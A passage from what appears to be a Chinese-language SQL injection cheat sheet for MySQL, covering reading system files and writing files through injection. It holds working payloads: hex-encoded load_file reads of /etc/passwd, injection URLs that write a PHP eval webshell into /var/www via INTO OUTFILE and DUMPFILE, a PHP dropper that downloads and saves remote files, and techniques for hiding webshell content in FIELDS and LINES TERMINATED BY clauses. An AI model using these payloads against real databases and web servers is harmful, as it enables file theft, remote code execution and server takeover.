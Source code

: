 `load_file(0x2f6574632f706173737764)` （*nix系统的/etc/passwd）  
id=1 and(select &#96;load_file&#96;(0x2f6574632f706173737764)>0x726f66) # 由于mysql 语法特性&#96;函数名&#96;()等价于函数名()   

### mysql 3.x  
```
mysql>create table a (cmd text);
mysql>load data infile 'c:\\boot.ini' into table a;
mysql>select * from a;

mysql>create table potatoes(line blob);
mysql>union select 1,1, hex(load_file('/etc/passwd')), 1,1 into dumpfile '/tmp/potatoes';
mysql>load data infile '/tmp/potatoes' into table potatoes;
```
### mysql 4.x  
同上  

### mysql 5.x  
`mysql>system cat /etc/passwd`
 
## 三、写文件
需要连接数据库的用户有file_priv 权限，且启动mysqld 的用户对目录需要有写权限，需要物理路径（爆路径漏洞或phpinfo），不存在重名文件，不过滤`'"`(因为没有办法编码路径名)，如果secure_file_priv非空，则写入文件的目录只能为对应目录下。注意：普通用户创建的文件默认权限是 644，但如php/jsp/asp 这些脚本是不需要可执行权限就能访问而被执行的，如 perl/python/bash/c++ 等写成的cgi 是需要可执行权限才能执行的。  
`test.php?id=1 union select 1,2,3,4,"<?php @eval($_POST[cmd])?>",6 into outfile "/var/www/shell.php"`  
`test.php?id=1 union select 1,2,3,4,"<?php @eval($_POST[cmd])?>",6 into dumpfile "/var/www/shell.php"`  
`SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'`  
FIELDS TERMINATED BY 原理为在输出数据的每个字段之间插入webshell内容，所以如果select返回的只有一个字段，则写入的文件不包含webshell内容，例如下面语句：  
`SELECT username FROM user WHERE id = 1 into outfile 'D:/1.php' FIELDS TERMINATED BY 0x3c3f70687020706870696e666f28293b3f3e`  
写入的文件中只包含username的值而没有webshell内容;    

LINES TERMINATED BY和LINES STARTING BY原理为在输出每条记录的结尾或开始处插入webshell内容，所以即使只查询一个字段也可以写入webshell内容，更为通用。此外，该类方式可以用于limit等不能union的语句之后进行写文件操作。  

dumpfile与outfile函数区别  
 
SELECT into outfile :可以导出每行  
 
SELECT into dumpfile :只能导出一行（将目标文件写入同一行内）  
 
into outfile不可导出二进制文件，文件会被破坏，转义等  
 
into dumpfile可导出完整可执行二进制文件  
 
into outfile:导出内容  
  
into dumpfile:导出二进制文件  
 

## 四、直接写exe,dll文件提权
